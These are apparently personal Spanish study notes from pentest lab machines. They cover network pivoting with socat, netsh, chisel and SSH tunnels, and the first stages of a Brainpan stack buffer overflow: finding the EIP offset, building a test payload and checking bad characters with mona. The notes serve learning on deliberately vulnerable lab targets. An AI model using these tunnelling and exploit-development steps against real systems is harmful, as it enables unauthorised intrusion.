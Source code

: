 ### Pivoting  Matrix Tunnel chisel
```shell
$> ./socat TCP-LISTEN:8789,fork TCP:192.168.50.202:1234 # Aragog
$> ./socat TCP-LISTEN:8788,fork TCP:10.10.0.128:8789 # Nagini
$> netsh interface portproxy add v4tov4 listenport=8787 listenaddress=0.0.0.0 connectport=8788 connectaddress=192.168.100.128 # Dumbledore simil socat.
$> ./chisel client 172.18.0.128:8787 R:5522:socks
# /etc/proxychains.conf 
# Añadimos "socks5 127.0.0.1 5522"
```
Puede ser que no nos deje abrir ssh en Nagini, podemos hacer un `ssh root@[IP Aragog] -L 22:10.10.0.129:22` -> Ahora podemos acceder mediante `ssh root@localhost`

## Brainpan

- Descubrimos puerto 9999 y 10000.
- El port 10000 es una web que no podemos enumerar por que peta el gobuster. Mediante burp podemos realizar un escaneo mandando la petición al intruder y fuzzeando /$test$ por el directorio 2.3.medium. Se necesita cambiar en /opciones/network/conecctions:
 ![[socks5BURP.png]]
 Fuzzeamos desde el intruder de BURP. Encontramos la ruta _/bin_ y este nos descarga un brainpan.exe. En el puerto 9999 corre al parecer un programa y suponemos que este binario descargado será el del puerto 9999 y explotaremos el BoF en local.
 - Para este paso nos levantamos un windows7 32bits. E instalamos immunity debugger y mona. 
 - Con immDebugger attach al binario, por otro lado ejecutamos el binario y desde el parrot con "nc ip 9999" entablamos conexion. Si ponemos muchas A podemos en  funcioaniemto todo. 
 - **Immunity debugger:**
 ```shell
$> /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000 # Patron 1000 caracteres. Nos resulta 35724134 -> EIP. 
$> /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x35724134 # Esto nos idicará cuantos "A" hay antes de esta dirección del EIP, resultado "A*524"
$> python3 -c 'print("A"*524 + "B"*4 + "C"*200)' # Payload, con esto controlamos que el EIP es: 42424242 que es igual que el BBBB. Desde IDebugger en el campo del ESP/follow in dump/ podemos ver que lo anterior al 4343.... es 42424242, quiere decir que en nuestras C deben de ir reemplazadas por nuestro shellcode. 
# Ahora descargamos mona.py y lo incluimos en la vm de windows7_32 en donde instalamos el IDebugger \PyCommand. Ahora desde Idebugger escribiendo "!mona" nos arranca el .py, este .py es para generar un patron para controlar el ESP. 
# Ahora com mona vamos a generar un patron en Idebbuger:
	# Creamos carpeta Binary en desktop
	# !mona config -set workingfolder C:\Users\test\Desktop\Binary\%p -> Esto nos seteamos que el patron se guarde aqui
	# !mona bytearray -cpb "\x00" -> Aqui crea el patron sacando del array los NULL "x00"
$> sudo impacket-smbserver smbFolder $(pwd) -smb2support # En Parrot 
$> \\[IP Parrot] # Desde WIN7_32 en explorador y copiamos el bytearry.txt que nos genero con el code. ç
$> cat bytearray.txt | grep -oP '".*?"' | tail -n 8 # Con esto nos quedamos solo la data que nos interesa. 
# Ahora pasamos a scriptear el payload final en .py
```
